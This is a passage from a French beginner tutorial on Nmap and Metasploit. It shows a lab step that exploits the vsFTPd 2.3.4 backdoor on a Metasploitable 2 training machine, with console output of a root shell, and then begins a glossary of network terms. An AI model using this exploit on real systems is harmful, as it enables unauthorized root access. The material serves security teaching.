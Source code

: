 ```bash

# Lancer l'exploit
msf6 > exploit
```

### Étape 5 : Vérification de l'accès (10 min)

Si l'exploit réussit, vous devriez obtenir une session shell sur la machine cible.

```bash
[*] 10.10.10.100:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.100:21 - USER: 331 Please specify the password.
[*] 10.10.10.100:21 - Exploit completed, but no session was created.
[+] 10.10.10.100:21 - Appears to be backdoored (vsFTPd 2.3.4).
[*] Found shell.
[*] Command shell session 1 opened (10.10.10.X:4444 -> 10.10.10.100:6200) at 2025-05-29 23:20:00 +0000

# Vous êtes maintenant dans le shell de la cible
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

Félicitations ! Vous avez utilisé Nmap pour trouver une vulnérabilité et Metasploit pour l'exploiter.

**En clair, pour un débutant :** Ce lab vous montre comment utiliser Nmap pour trouver une faille sur une machine d'entraînement (Metasploitable 2), puis comment utiliser un autre outil (Metasploit) pour exploiter cette faille et prendre le contrôle de la machine. C'est un exemple concret du travail d'un pentester.

### <details><summary>⚠️ Solution Spoiler</summary></details>



## 14. Glossaire local

Voici une définition simplifiée de 20 termes essentiels que vous rencontrerez en utilisant Nmap et en étudiant la sécurité réseau :

1.  **Nmap (Network Mapper) :** Outil principal pour scanner les réseaux, découvrir les machines connectées et les services qu'elles proposent.
    *En clair :* Le "radar" pour voir ce qui se passe sur un réseau.

2.  **Port :** Porte numérique sur un ordinateur permettant aux programmes de communiquer sur un réseau. Chaque service (web, mail, etc.) utilise un numéro de port spécifique (ex: 80 pour le web).
    *En clair :* Une porte d'entrée/sortie pour les données sur un ordinateur.

3.  **TCP (Transmission Control Protocol) :** Protocole réseau fiable qui assure que les données arrivent correctement et dans l'ordre (utilisé pour le web, mail, SSH...). Il établit une connexion avant d'envoyer les données.
    *En clair :* Comme un appel téléphonique, on établit la connexion avant de parler.
